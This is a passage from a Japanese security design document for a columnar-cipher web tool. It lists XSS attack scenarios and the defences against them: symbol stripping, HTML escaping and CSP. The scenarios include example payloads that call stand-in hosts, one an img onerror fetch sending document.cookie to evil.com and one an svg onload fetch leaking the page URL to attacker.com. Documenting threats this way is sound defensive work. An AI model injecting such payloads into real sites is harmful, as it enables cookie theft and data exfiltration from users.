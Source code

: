 **攻撃手法**:
```javascript
// 悪意のある平文入力
<svg onload=fetch('https://attacker.com/log?victim='+location.href)>Hello World</svg>
```

**対策効果**:
1. **記号削除オプション**: `<>`が除去される（通常設定時）
2. **HTMLエスケープ**: 残った文字がエスケープされる
3. **CSP**: 外部通信がブロックされる
4. **結果**: 多層防御により攻撃失敗

### 🎯 シナリオ3: URL パラメータ攻撃

**攻撃手法**:
```
https://your-site.github.io/columnar-cipherlab/?
malicious=<script>document.location='https://fake-bank.com'</script>
```

**対策効果**:
1. **現状**: URLパラメータは直接使用されていない
2. **将来対策**: パラメータ機能追加時はエスケープ必須
3. **CSP**: 外部リダイレクトがbase-uriにより制限

### 🎯 シナリオ4: ソーシャルエンジニアリング

**攻撃手法**:
```
「この暗号化面白いよ！試してみて」
→ 被害者が以下を入力:
<img src=x onerror="fetch('https://evil.com/steal?cookies='+document.cookie)">
```

**対策効果**:
1. **入力正規化**: 記号削除により`<>`が除去
2. **HTMLエスケープ**: 残った部分がエスケープ
3. **CSP**: 外部通信がブロック
4. **結果**: 攻撃無効化、正常な暗号化処理継続

---

## 🔍 実装の技術的詳細

### 📊 パフォーマンス影響

**HTMLエスケープのオーバーヘッド**:
- 処理時間: 1万文字で約1ms（無視できるレベル）
- メモリ使用量: 元の文字列の約1.2倍（HTML文字の展開分）

**CSPのオーバーヘッド**:
- 処理時間: リソース読み込み時のチェックのみ（ほぼゼロ）
- メモリ使用量: ヘッダー情報のみ（数百バイト）

### 🔧 実装時の考慮点
